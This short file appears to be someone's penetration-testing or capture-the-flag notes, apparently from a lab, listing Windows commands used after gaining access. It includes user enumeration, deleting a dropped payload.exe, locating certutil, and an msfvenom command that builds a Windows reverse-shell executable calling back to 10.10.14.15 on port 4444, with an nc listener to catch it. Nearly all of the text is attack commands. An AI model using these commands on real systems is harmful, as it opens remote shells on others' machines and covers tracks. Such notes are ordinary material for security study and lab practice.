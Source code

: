 a few more windows command 
```bash
Get-PSSession -ComputerName localhost
net users sflowers
del payload.exe
cd %temp%          # in CMD
cd $Env:temp       # in powershell
where certutil.exe # CMD only? 
```
use msfvenom to do a reverse shell in cmd instead of Evil-WinRM's powershell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe > payload.exe
rlwrap nc -lvnp 4444
```
